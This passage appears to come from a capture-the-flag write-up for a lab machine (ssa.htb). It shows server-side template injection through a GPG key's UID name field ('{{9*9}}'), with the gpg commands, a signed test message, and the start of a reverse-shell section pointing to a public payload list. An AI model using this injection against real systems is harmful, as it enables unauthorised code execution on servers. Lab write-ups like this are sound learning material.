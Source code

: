 Let's generate something that cannot be escaped properly by Jinja, instead processed/evaluted. Let's use the `name` field of a GPG UID.
```bash
gpg --gen-key   # Generating PGP Key
gpg --edit-key XXXXXXXXX    # Edit the generated PGP Key

# Let's add a UID
gpg> adduid
Real name: {{9*9}}
Email address: foo@bar.com
Comment:

gpg> trust
gpg> save
```

Ok, now let's export the public PGP key and generate a dummy text so we can validate the signature in https://ssa.htb/guide/encrypt
```bash
gpg --armor --export 'lol' > pub.asc

z➤ echo 'test' | gpg --clear-sign
-----BEGIN PGP SIGNED MESSAGE-----
Hash: SHA256

test
-----BEGIN PGP SIGNATURE-----

iQGzBAEBCAAdFiEElEYdb9ECXVfTY/cqwGZaQgS3h8EFAmTVedwACgkQwGZaQgS3
h8F42gv/cp9Rwmj3nr/EAe6R0B+4tEHPKNEZHl3xQHLd1nfiyPzgSODQpzwROzQW
B9grdnKC0Lz91zmQL6sy+UNg1cflqBgcDtE/vj0KdewoGSa3s0NmowilyBII5ebJ
GBIPH8sOrlBUQE6CyS8uTdXADi81dAe7U6gVZI+4Z6D2s6Ni7A+MK24B1MdMAxS/
BsN0Wec5tZPe0xMrlJkcYKvpqB7NYJv+NfZaGPQ5lslvG4/wkbkl8gXerlUXtuw/
bIhJAG6IIR6/8PPi9/1fuxsg3XBdaSncaRzv+kL+jNu3WpqLYO0mI62Sl7bibWGk
EOLWMOlMd/onAabLKC38aSYZHtwTwsJkpAvJSZULOqgonfMx1e7hLd2ZE+4qdQhU
gVnlE0xPotolcUtK43504EltXuQGn+nJ4uWm3x9fNmxrnJVvYVK8WEH/9mt936cH
a2bnrb9UsNy7Oj5BSZDYDC6LUK1dxneIvxKeZ6g49LqvyGYeojdbV+Vn0INufbNW
c+kyZk+6
=CibY
-----END PGP SIGNATURE-----
```

And voilá, the `9*9` has been processed and evaluted, I tested other examples as well, you can see the screenshot:
{{< limg "/i/2023-08-10_19-53.png" "Server Side Templating Injection" >}}

### Rev Shell access

Ok, so we just need to get a reverse shell with the SSTI vuln. Thanks to PayloadAllTheThings: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-ospopenread

First, let's get a bash revshell:
{{< limg "/i/2023-08-10_20-05.png" "revshell" >}}
